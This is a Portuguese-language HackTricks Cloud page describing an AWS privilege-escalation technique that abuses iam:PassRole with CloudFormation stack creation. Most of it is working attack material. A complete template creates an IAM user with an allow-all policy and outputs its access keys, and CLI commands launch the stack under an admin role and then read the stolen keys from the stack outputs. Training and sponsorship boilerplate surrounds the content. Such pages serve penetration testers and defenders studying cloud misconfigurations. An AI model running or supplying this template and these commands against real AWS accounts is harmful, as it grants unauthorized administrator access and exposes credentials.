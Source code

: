 # iam:PassRole, cloudformation:CreateStack,e cloudformation:DescribeStacks

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

Um atacante poderia, por exemplo, usar um **template de cloudformation** que gera **chaves para um usuário admin** como:
```json
{
"Resources": {
"AdminUser": {
"Type": "AWS::IAM::User"
},
"AdminPolicy": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"Description" : "This policy allows all actions on all resources.",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"*"
],
"Resource": "*"
}]
},
"Users": [{
"Ref": "AdminUser"
}]
}
},
"MyUserKeys": {
"Type": "AWS::IAM::AccessKey",
"Properties": {
"UserName": {
"Ref": "AdminUser"
}
}
}
},
"Outputs": {
"AccessKey": {
"Value": {
"Ref": "MyUserKeys"
},
"Description": "Access Key ID of Admin User"
},
"SecretKey": {
"Value": {
"Fn::GetAtt": [
"MyUserKeys",
"SecretAccessKey"
]
},
"Description": "Secret Key of Admin User"
}
}
}
```
Então **gere a pilha do cloudformation**:
```bash
aws cloudformation create-stack --stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::[REDACTED]:role/adminaccess \
--capabilities CAPABILITY_IAM --region us-west-2
```
**Aguarde alguns minutos** para que a pilha seja gerada e então **obtenha a saída** da pilha onde as **credenciais estão armazenadas**:
```bash
aws cloudformation describe-stacks \
--stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
--region uswest-2
```
### Referências

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
